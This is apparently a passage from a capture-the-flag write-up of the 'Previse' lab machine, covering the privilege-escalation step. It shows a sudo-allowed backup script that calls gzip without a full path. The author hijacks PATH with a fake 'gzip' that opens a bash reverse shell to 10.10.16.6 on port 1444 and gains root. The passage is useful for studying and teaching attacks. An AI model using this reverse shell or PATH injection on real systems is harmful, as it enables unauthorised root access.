     m4lwhere@previse:~$ ls
    user.txt
    m4lwhere@previse:~$ cat user.txt 
    fdd1e6...............


### -------Privilleges Escalation--------

// Lets run 'sudo -l' to check wich sudo privilleges we have

    m4lwhere@previse:~$ sudo -l
    [sudo] password for m4lwhere: 
    User m4lwhere may run the following commands on previse:
        (root) /opt/scripts/access_backup.sh
        
// Its seems we can run 'access_backup.sh' with sudo privilleges

// lets check this file

    m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
    #!/bin/bash

    # We always make sure to store logs, we take security SERIOUSLY here

    # I know I shouldnt run this as root but I cant figure it out programmatically on my account
    # This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

    gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
    gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz

// We can execute path injection

// Lets check the current path of gzip

    m4lwhere@previse:~$ which gzip
    /bin/gzip

// Now we will make our malicious(Reverse shell) gzip file in /tmp folder

// and inject /tmp to PATH 

    m4lwhere@previse:~$ cd /tmp/
    m4lwhere@previse:/tmp$ echo "bash -i >& /dev/tcp/10.10.16.6/1444 0>&1" > gzip  
    m4lwhere@previse:/tmp$ chmod +x gzip 
    m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH 
    m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh

// and we got root flag !

    root@previse:/root# cat root.txt
    cat root.txt
    a74e70.................
    
